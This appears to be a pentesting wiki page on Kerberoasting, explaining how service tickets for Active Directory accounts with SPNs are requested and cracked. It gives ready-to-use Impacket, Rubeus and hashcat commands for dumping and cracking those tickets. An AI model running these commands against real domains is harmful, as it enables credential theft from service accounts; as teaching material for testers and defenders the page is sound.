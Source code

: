 # Kerberoasting

## Introduction

**Kerberoasting** is an attack technique that allows attackers to target **service accounts** in Active Directory. These service accounts typically have **SPNs (Service Principal Names)** associated with them.

The attacker is able to request the **Service Ticket** from the **Ticket Granting Server** which is encrypted using the **SPN's password hash**.

**The attack is made in few steps:**

1. **The attacker sends** [#tgs-req](../kerberos-authentication.md#tgs-req "mention") request to the Ticket Granting Server.
2. **The attacker gets the Service Ticket** in the[#tgs-rep](../kerberos-authentication.md#tgs-rep "mention") request
3. **Attacker brute-forces** the Service Ticket offline to obtain the user's password.

## Performing the attack

### Impacket

```bash
impacket-GetUserSPNs -request -dc-ip <dc_ip> <domain>/<username>
```

### Rubeus

```batch
.\Rubeus.exe kerberoast /outfile:<outputfile>
```

## Crack

```bash
hashcat -m 13100 <hashes_file> <wordlist>
```

